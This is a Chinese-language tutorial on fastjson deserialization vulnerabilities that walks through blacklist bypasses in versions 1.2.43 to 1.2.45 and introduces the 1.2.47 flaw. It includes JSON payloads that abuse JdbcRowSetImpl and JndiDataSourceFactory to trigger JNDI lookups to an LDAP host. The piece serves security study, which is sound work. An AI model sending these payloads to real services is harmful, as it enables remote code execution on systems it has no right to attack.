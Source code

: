 ### 4. fastjson-1.2.43

这个版本主要是修复上一个版本中双写绕过的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.43`
> 描述：上有政策，下有对策。在 `L`、`;` 被进行了限制后，安全研究人员将目光转向了 `[`。

可以看到用来检查的 `checkAutoType` 代码添加了判断，如果类名连续出现了两个 `L` 将会抛出异常，

![](https://oss.javasec.org/images/1616469807043.png)

这样使用 `L`、`;` 绕过黑名单的思路就被阻挡了，但是在 `loadClass` 的过程中，还针对 `[` 也进行了处理和递归，能不能利用 `[` 进行黑名单的绕过呢？

答案当然是可以的：

```json
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,
	{"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 5. fastjson-1.2.44

这个版本主要是修复上一个版本中使用 `[` 绕过黑名单防护的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.44`
> 描述：在此版本将 `[` 也进行修复了之后，由字符串处理导致的黑名单绕过也就告一段落了。

可以看到在 `checkAutoType` 中添加了新的判断，如果类名以 `[` 开始则直接抛出异常。

![](https://oss.javasec.org/images/1616475393707.png)


### 6. fastjson-1.2.45

在此版本爆出了一个黑名单绕过，实际上，黑名单是无穷无尽的，随着 fastjson 的版本更新，一定会有更多的黑名单爆出来，因为隔壁 jackson 都是明文黑名单的，只要隔壁一更新，大家都看到了，就会拿来看 fastjson。

> 影响版本：`1.2.25 <= fastjson <= 1.2.45`
> 描述：黑名单列表需要不断补充。

```json
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:23457/Command8"
    }
}
```

### 7. fastjson-1.2.47

在 fastjson 不断迭代到 1.2.47 时，爆出了最为严重的漏洞，可以在不开启 AutoTypeSupport 的情况下进行反序列化的利用。

> 影响版本：`1.2.25 <= fastjson <= 1.2.32  未开启 AutoTypeSupport `
> 影响版本：`1.2.33 <= fastjson <= 1.2.47`
> 描述：作者删除了一个 fastjson 的测试文件：`https://github.com/alibaba/fastjson/commit/be41b36a8d748067ba4debf12bf236388e500c66` ，里面包含了这次通杀漏洞的 payload。

